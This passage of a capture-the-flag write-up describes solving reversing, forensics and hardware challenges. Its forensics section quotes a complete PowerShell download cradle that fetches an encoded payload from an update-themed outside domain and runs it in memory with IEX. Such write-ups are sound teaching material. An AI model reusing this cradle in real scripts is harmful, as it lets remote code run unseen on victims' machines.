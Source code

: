 This challenge gave you a binary to analyze. However, it was not even necessary to disassemble it or similar, as you could just pass it to the `strings` utility, which then shows you all strings in the binary, including the flag needed to complete the challenge.

## Forensics - Alien Cradle

This challenge gave you a PowerShell script. In case you executed it, which would, of course, be a bad idea in most cases, it rickrolled you by opening the requisite video in your browser. However, I learned that there is also PowerShell for Linux and macOS, which was new to me.

```if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();```

When actually looking at the source, it was immediately obvious that the flag was just being concatenated. These separate parts could then just be pierced together. 

## Hardware - Critical Flight

This challenge gave you a set of Gerber files to open with a PCB design or viewing tool. These were not hidden in any way or similar, so if you knew or could somehow figure out with which tool to open them, this was really easy and quick. I just opened them with gerberview from KiCad, and then just went through each layer, where two of them contained one part of the flag each.

![](static/images/kicad.png)

# Partial Solves

I think I solved some at least partially. Of those, I wanted to share at least the ones that I found most interesting. These will be added soon.

## Reversing - Hunting License Partial Solve



## Reversing - C Shells

## Hardware - Timed Transmission

